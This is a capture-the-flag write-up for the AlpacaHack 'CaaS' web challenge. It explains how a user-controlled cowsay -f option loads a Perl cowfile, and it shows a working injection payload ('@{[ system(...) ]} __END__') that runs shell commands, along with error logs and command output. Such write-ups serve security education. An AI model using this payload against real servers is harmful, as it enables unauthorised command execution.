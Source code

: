```yaml
---
title: "AlpacaHack Round 2 (Web) - CaaS (Cow as a Service)"
date: "2024-11-07"
tags:
  - writeups
  - ctf
  - perl
  - command injection
toc: true
math: true
bold: true
nomenu: false
---
```


## Overview

I've initially thought that this is a JavaScript command injection challenge, since that we have the flag located at the root and we have a binary that is being executed (`/usr/games/cowsay`). I began to read the documentation of [google/zx](https://github.com/google/zx), but after a while I didn't find anything that could lead to command injection.

Then I've started to explore the binary itself `/usr/games/cowsay`, I also setup a verbose output for `ZX` as I've read the documentation.

```js
await $({
    verbose: true,
    cwd: "public/out",
    timeout: "2s",
})`/usr/games/cowsay ${message} > ${uuid}`;
```

I've read the [manpage for the binary](https://linux.die.net/man/1/cowsay), where I've noticed few options:

- cowsay [-e eye_string] [-f cowfile] [-h] [-l] [-n] [-T tongue_string] [-W column] [-bdgpstwy] 

I've exprimeneted a bit with the `-eTW` options but that yielded nothing, then I've tried the `-l` and `-f` options. The `-l` option lists
the cowfiles located in `/usr/share/cowsay/cows/*.cow` those are templates for the `cowsay`. Since that we can write a file to `/app/public/out/*` I thought that we can create a cow file that would list the root directory, so I've went to see what are the specifications of that cowfile.

I've explored few github projects with additional templates for cowsay and how they are structured, here is an example template:

```
##
## acsii picture from http://www.ascii-art.de/ascii/ab/bear.txt
##
$eye = chop($eyes);
$the_cow = <<EOC;
 $thoughts
  $thoughts
     .--.              .--.
    : (\\ ". _......_ ." /) :
     '.    `        `    .'
      /'   _        _   `\\
     /     $eye}      {$eye     \\
    |       /      \\       |
    |     /'        `\\     |
     \\   | .  .==.  . |   /
      '._ \\.' \\__/ './ _.'
      /  ``'._-''-_.'``  \\
EOC
```

And as the man page says `A cowfile is made up of a simple block of perl(1) code`, so we can write a perl to the `/out` directory and try to execute it with `-f` option.

But since that we have bunch of symbols before the text we control like:

```
 _______________
< waht the fuck >
 ---------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

I wasn't sure that if this file is going to run (it didnt). 

```
web-1  | $ /usr/games/cowsay -f/app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 > e50643f3-8ffe-4772-bab7-3896acbeb65b
web-1  | Backslash found where operator expected at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 5, near ")\"
web-1  |        (Missing operator before \?)
web-1  | Backslash found where operator expected at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 6, near ")\"
web-1  |        (Missing operator before \?)
web-1  | Backslash found where operator expected at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 6, near ")\"
web-1  |        (Missing operator before \?)
web-1  | cowsay: Search pattern not terminated at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 6.
```

> Note: I didn't use Burp/Caido, I just went to the input field and placed my payloads.

So I went to see if there are stuff like string formats in Perl, and I found the weirdly named [Baby cart](https://metacpan.org/pod/perlsecret#Baby-cart) for interpolation. And I've tried with it with the following payload.

```
@{[ system("ls -la") ]}
```

And I've done it, I made the perl to error again. Now I was at a dead end and I got little help with it, I discovered the `__END__` bullshit, now this is a special Perl literal that ends the script and that was the thing that I was missing. So in the end the payload became:

```
@{[ system("ls -la") ]} __END__
```

And then I would get the UUID and use it again as

```
-f/app/public/out/UUID
```

To get the output:

```
total 1072
drwxrwxrwt 1 root root 32768 Nov  7 09:24 .
drwxr-xr-x 1 root root  4096 Nov  7 06:56 ..
-rw-r--r-- 1 root root     0 Aug 25 11:38 .gitkeep
-rw-r--r-- 1  404  404    13 Nov  7 07:52 011869a0-aaf5-47e2-b6da-7d9bbb82f567
-rw-r--r-- 1  404  404    13 Nov  7 07:25 014eb95c-17f2-45bd-85df-c7714a14e68e
-rw-r--r-- 1  404  404   175 Nov  7 08:30 028ad084-a645-4ef5-b0de-8e8516b2aab6
-rw-r--r-- 1  404  404    13 Nov  7 07:40 02cdb7a8-8d39-494b-84cc-860ee5dd7f3f
<ANOTHER 30k UUID>
 __
<  >
 --
```

And then we can simply `cat` the flag.

> Note: You don't even need the weirdly  named stuf in "Perl secret operators and constants", because it turns out that this is not even in perl itself, thanks to the users of StackOverflow that are always suggesting 3rd party solutions to simple things!